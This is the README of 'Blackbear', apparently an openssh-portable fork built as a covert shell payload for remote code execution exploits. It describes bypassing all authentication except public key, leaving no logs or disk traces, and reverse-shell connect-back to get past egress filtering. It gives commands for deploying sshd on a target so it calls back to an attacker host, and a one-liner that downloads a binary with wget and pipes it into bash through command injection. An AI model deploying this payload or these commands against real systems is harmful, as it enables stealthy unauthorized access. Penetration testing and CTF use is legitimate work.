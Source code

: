 # Blackbear: a fork of openssh-portable for penetration testing purposes.

Disclamer: Do not use in production or on any public facing server. Use only
in penetration testing context, while participating in capture the flag 
competitions or otherwise studying computer security. I've made modifications
which severly degrade the security of the server. 

## Blackbear project goals:

The blackbear server is to be used as main payload for RCE exploits.  

Main goal is to have reliable interactive shell access (must be able to run 
top, sudo, screen, vi, etc) as opposed to crafted reverse shells 
meterpreter which allow basic commands but fail at interactive ones.

Secondary goal is to implement reverse ssh shell operation.  This means 
than the server must be able to establish a tcp connection in addition to
its ability to listen for incoming connections and vice versa.  Once the
server can connect to the client, the ssh protocol happens as usual so
the client which received the connection gets a shell on the server.

As always, reverse shell operation is meant to bypass firewall with spotty
(if any) egress filtering.

Additionnal goals:

- be able to run under any user account, must not require root or elevated 
privileges.                                                                
- server must not touch the disk, host keys shall be generated on the fly 
(insecure), authorized keys and configuration must be encoded within the 
binary, no logging.  Only /dev/urandom and other required device files shall 
be used.
- must bypass any and all authentication mecanisms except public key
authentication.  Than is to be able to gain access even if
~/.ssh/authorized_keys does not exists, the account is disabled, the 
account has an invalid shell, etc.

## Quickstart

1. Install zlib and OpenSSL libraries and development files for your distribution

2. Run autoreconf to generate the configure scrip

3. The usual ./configure then make

4. Run the ssh client in listening mode

  e.g: listen on all interfaces, using port 8022
  ./ssh -i id_blackbearkey -r 0.0.0.0 -p 8022

5. Upload sshd binary on the target and run

  e.g: connect back to you on port 8022
  ./sshd -s LHOST -p 8022

You shall receive a shell with the priviledges of the account running sshd

## Easyexecute

patch the binary to make it a bash script that will chmod +x itself
easyexecute.py sshd
then sshd can be piped into bash, see example below

Basic example for Damn Vulnerable Web Application (command injection):

`export ARGS="-s 192.168.122.1 -p 8022"; cd /tmp; wget -r http://192.168.122.1:8080/sshd -O sshd && cat sshd | bash`

INSTALL has more detailed compilation instructions.


